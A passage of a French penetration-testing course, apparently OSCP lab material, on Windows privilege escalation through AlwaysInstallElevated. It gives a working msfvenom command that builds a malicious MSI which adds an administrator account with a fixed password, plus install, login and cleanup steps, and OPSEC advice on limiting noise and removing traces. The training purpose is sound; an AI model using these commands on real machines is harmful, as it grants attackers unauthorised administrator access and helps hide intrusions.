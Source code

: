 #### Exercice 3: Exploitation via AlwaysInstallElevated (15 minutes)

1. Créez un package MSI malveillant (sur votre machine Kali) :
   ```bash
   # Sur Kali Linux
   msfvenom -p windows/exec CMD='net user msiuser P@ssw0rd123 /add && net localgroup Administrators msiuser /add' -f msi -o evil.msi
   ```

2. Transférez le fichier MSI sur la machine Windows (via SMB, HTTP ou autre méthode)

3. Installez le package MSI avec privilèges élevés :
   ```powershell
   msiexec /quiet /qn /i C:\path\to\evil.msi
   ```

4. Vérifiez que l'utilisateur a été créé :
   ```powershell
   net user msiuser
   ```

5. Connectez-vous en tant que nouvel utilisateur administrateur :
   ```powershell
   runas /user:msiuser cmd.exe
   # Mot de passe: P@ssw0rd123
   ```

6. Nettoyez en supprimant l'utilisateur créé :
   ```powershell
   net user msiuser /delete
   ```

### 6.4 Considérations OPSEC et bonnes pratiques

Pendant les exercices, observez les traces laissées par vos actions :

**Sur Linux :**
- Examinez les journaux d'authentification : `sudo cat /var/log/auth.log`
- Vérifiez l'historique des commandes : `history`
- Observez les processus en cours : `ps aux`

**Sur Windows :**
- Examinez le journal de sécurité : `eventvwr.msc` → Journaux Windows → Sécurité
- Vérifiez les processus en cours : `tasklist`
- Observez les connexions réseau : `netstat -ano`

**Bonnes pratiques :**
- Limitez l'utilisation de commandes bruyantes
- Nettoyez les fichiers temporaires et les artefacts
- Restaurez les configurations modifiées
- Documentez vos actions pour le rapport

Ce mini-lab vous a permis de mettre en pratique plusieurs techniques d'escalade de privilèges courantes dans des environnements contrôlés. Ces compétences sont directement applicables aux scénarios d'examen OSCP.

## 7. Pièges classiques
